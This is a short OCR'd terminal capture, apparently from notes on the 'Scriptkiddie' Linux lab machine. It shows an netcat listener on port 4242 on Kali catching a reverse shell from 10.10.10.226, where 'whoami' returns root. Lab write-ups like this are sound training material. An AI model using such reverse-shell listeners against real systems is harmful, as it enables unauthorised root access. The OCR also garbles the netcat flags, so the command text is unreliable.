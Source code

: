 ![](Maszyny/Linux/Scriptkiddie/Pasted%20image%2020210831183949.png)

-(kali kali)-[-]
rlwrap nc -lynp 4242
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on ::: 4242
Ncat: Listening on 0.0.0.0:4242
Ncat: Connection from 10.10.10.226.
Ncat: Connection from 10.10.10.226:36574.
whoami
root
